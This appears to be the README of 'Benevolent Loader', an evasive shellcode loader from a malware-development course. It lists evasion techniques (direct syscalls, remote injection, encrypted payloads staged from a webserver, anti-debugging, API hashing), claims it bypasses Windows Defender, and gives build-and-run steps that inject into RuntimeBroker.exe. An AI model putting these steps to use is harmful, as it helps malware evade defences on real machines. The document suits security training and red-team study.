

<!-- ```c
VOID Banner() {
    PRINTW(L"\n\
┳┓          ┓     ┓      ┓    \n\
┣┫┏┓┏┓┏┓┓┏┏┓┃┏┓┏┓╋┃ ┏┓┏┓┏┫┏┓┏┓\n\
┻┛┗ ┛┗┗ ┗┛┗┛┗┗ ┛┗┗┗┛┗┛┗┻┗┻┗ ┛ \n\
          V0.1 by @jakobfriedl\n\n"); 
}
``` -->


Evasive shellcode loader built as part of a capstone exercise for the Maldev Academy syllabus. This loader uses beginner and intermediary malware development concepts like direct syscalls via Hell's Gate, payload staging, payload encryption and several anti-analysis features. Tested successfully against Windows Defender with Havoc.

> [!CAUTION]
> The tools in this repository can inflict harm on systems when executed without caution. I do not condone the use of these programs for any malicious activities.

## Features: 
- [Payload builder](./Builder/)
  - AES encrypted payload
  - XOR protected encryption key
- Remote mapping injection via direct syscalls (Hell's Gate)
- Payload staging via remote webserver
- Brute-force key decryption during runtime
- API hashing
- Delayed execution via API Hammering
- Self-deletion if debugger is detected
- IAT Camouflage

## Usage instructions
1. Store payload in `payload.bin`.
2. Use `Builder.exe` (Release x64) in the same directory to generate `enc.bin` and the C code for the decryption. The output should lookl like the following:
   ```c
   #define HINT_BYTE 0x66
    unsigned char pProtectedKey[] = {
        0x18, 0xCF, 0xC4, 0x29, 0x25, 0x83, 0xF3, 0x3C, 0x8E, 0xC7, 0x1A, 0x6D, 0x89, 0xBE, 0xF9, 0xF9,
        0xFD, 0x9F, 0x2D, 0x69, 0x05, 0x04, 0x00, 0x55, 0x85, 0x37, 0xDD, 0xF5, 0x86, 0xFE, 0x84, 0x68 };

    unsigned char pIv[] = {
        0x03, 0xF6, 0x44, 0x93, 0xEC, 0x41, 0x90, 0x6C, 0x70, 0xCA, 0xFA, 0x5C, 0x50, 0x5C, 0xF4, 0xA4 };
   ```
3. Switch to the Benevolent Loader project to replace the HINT_BYTE in `base.h` with the generated hint byte. Further replace the pProtectedKey and pIv variables in `crypt.c`.
4. Modify the suUrl variable in `main.c` to specify the server where `enc.bin` is hosted.
5. For verbose output, uncomment the `#define VERBOSE` line in `base.h`.
6. Build the Benevolent Loader project in Release x64 mode.
7. Execute `BenevolentLoader.exe` with the target process name as an argument.
   
```
.\BenevolentLoader.exe RuntimeBroker.exe
```

## Screenshots
> Testing against Defender


> Verbose output 

